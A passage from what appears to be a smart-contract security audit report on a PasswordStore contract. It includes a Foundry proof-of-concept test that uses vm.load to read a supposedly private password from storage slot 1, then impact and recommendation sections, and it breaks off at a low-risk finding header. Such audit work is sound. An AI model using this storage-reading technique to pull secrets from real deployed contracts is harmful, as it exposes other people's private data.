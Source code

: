 ```solidity
    // By observing the protocol's source code at `PasswordStore.sol`, we notice that `s_password` is the second storage variable declared in the contract. Since storage slots are alloted in the order of declaration in the EVM, its slot value will be '1'
    uint256 S_PASSWORD_STORAGE_SLOT_VALUE = 1;

    // Access the protocol's storage data at slot 1
    bytes32 slotData = vm.load(
        address(passwordStore),
        bytes32(S_PASSWORD_STORAGE_SLOT_VALUE)
    );

    // Converting `bytes` data to `string`
    string memory anyoneCanReadPassword = string(
        abi.encodePacked(slotData)
    );
    // Exposes Victim's password on console
    console.log(anyoneCanReadPassword);
}

```

Make sure to run the test command with `-vv` flag to see the `Logs` in command output.

## Impact

This vulnerability completely compromises the confidentiality of the protocol and exposes the sensitive private data of the owner of the protocol to everyone on the blockchain.

## Tools Used

Foundry

## Recommendations

All data on the blockchain is public. To store sensitive information, additional encryption or off-chain solutions should be considered. Sensitive and personal data should never be stored on the blockchain in plaintext or weakly encrypted or encoded format.

# Medium Risk Findings

# Low Risk Findings

## <a id='L-01'></a>L-01. Initialization Timeframe Vulnerability

_Submitted by [dianivanov](/profile/clo3cuadr0017mp08rvq00v4e)._

### Relevant GitHub Links
